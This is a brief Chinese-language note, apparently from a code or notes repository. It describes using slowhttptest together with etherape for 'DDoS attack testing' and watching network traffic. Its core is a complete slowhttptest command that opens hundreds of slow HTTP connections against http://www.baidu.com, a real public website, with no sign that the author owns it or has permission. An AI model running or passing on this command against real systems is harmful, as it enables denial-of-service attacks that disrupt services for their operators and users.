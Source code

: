 * slowhttptest配合etherape进行DDOS攻击测试
  etherape查看网络流量
   : slowhttptest -c 500 -H -g -o outputfile -i 10 -r 200 -t GET -u http://www.baidu.com -x 24 -p 2
